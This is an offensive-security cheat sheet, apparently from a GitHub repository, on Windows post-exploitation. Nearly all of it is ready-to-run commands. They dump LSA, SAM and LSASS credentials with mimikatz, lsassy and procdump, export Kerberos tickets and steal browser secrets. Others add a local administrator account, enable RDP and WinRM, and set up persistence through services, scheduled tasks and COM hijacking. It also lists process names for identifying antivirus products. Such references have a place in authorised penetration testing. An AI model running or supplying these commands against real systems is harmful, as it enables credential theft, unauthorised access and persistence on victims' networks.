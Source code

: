 # Post-Ex Windows

## **Dump secrets**

### LSA

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
```

### SAM
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

reg save hklm\sam .\sam reg save hklm\system .\system reg save hklm\security .\security 
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

```
### LSASS 
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> -M lsassy

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>

pypykatz lsa minidump lsass.dmp

procdump.exe --accepteula -ma lsass c:\WINDOWS\Temp\lsass.txt

.\mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Kerberos 

```bash
.\mimikatz.exe "log" "privilege::debug" "kerberos::list /export" exit

```

### Browser secrets

```bash
sharpchrome.exe


https://github.com/login-securite/DonPAPI

DonPAPI.py "$DOMAIN"/"$USER":"$PASSWORD"@"$TARGET"
```

## Create/add new local admin account 

```bash
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

## Enable WinRM

```bash
Enable-PSRemoting -SkipNetworkProfileCheck -Force
```

## Enable RDP

```bash
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

add user to RDP group

```bash
net localgroup "Remote Desktop Users" <user> /add
```

## Create service

```bash
New-Service -BinaryPathName C:\Users\sqlServer\Documents\system2.exe -Name syshell -DisplayName syshell -StartupType Automatic 
Start-Service syshell
```
or 

```
sc \\127.0.0.1 create ServiceName binpath=C:\windows\system32\calc.exe
```
> \192.168.1.2 is optional


To check if service working well, you can reboot like this: 

`wmic /node:192.168.1.2 os get buildnumber` then 

`wmic /node:192.168.1.2 os where buildnumber="<Number>" call reboot` 


## Execute binary using WMIC

```
wmic /node:127.0.0.1 process call create "C:\windows\system32\calc.exe"
```
>/node is optional


## Stop processus

Run this to get processid : `sc \\127.0.0.1 query ServiceName` 

then : `wmic /node:127.0.0.1 process where processid=<PID> call terminate` 
>/node is optional

and then `taskkill /S 127.0.0.1 /PID <PID> /f`
>/S is optional


## Create Scheduled tasks

```
schtasks /create /S 192.156.1.2 /tn <name> /sc once /sd 01/01/1910 /ru system /tr “C:\windows\system32\calc.exe”

Other 

schtasks /create /S 127.0.0.1 /tn OBLIGE /tr "C:\windows\system32\calc.exe" /sc once /ST 18:30
```
> ru <user>, and /S is optional
> To check if tasks has been created run this `schtasks /s 192.156.1.2 /query /tn <name>`



## COM hijack

```bash
schtasks /query /xml > tasks.xml
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg export "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32" export.reg

# Change to HKCU and change dll
reg import export.reg /reg:64
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"

```

## Disconnect User 

`rwinsta /server:192.168.1.2 <sessionId>`
>to get sessionId please run this `qwinsta` 

## detection of the anti virus (AV)

run `fltmc` to get list of altitude, and search it into windows documentation : https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/allocated-altitudes

for exemple `389040  = 	SentinelOne`

AV range is : 320000 - 329998


It's also possible to get AV from process list 

for exemple 

```
Microsoft Defender MSMpEng.exe
Trend Micro	TMBMSRV.exe
Avira		avguard.exe/Avira.ServiceHost.exe
Bitdefender	bdagent.exe/vsserv.exe
Kaspersky 	avp.exe/ksde.exe
AVG		AVGSvc.exe
Norton		NortonSecurity.exe
McAfee		MCAPExe.exe/mfemms.exe
Panda		PavPrSvr.exe
Avast		afwServ.exe/AvastSvc.exe
```
